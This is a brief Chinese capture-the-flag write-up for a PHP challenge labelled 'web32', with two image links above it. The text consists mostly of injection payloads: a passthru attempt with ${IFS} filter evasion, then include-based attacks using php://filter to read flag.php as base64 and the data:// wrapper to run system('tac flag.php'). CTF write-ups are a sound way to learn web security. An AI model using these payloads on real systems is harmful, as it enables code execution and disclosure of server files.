


# web32

反引号被过滤,
还是尝试passthru
?c=passthru("tac\${IFS}f*")
不行
这里需要用include文件包含
c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php

试一下data协议写码
?c=include$_GET[1]?>&1=data://text/plain,<?php system("tac flag.php");?>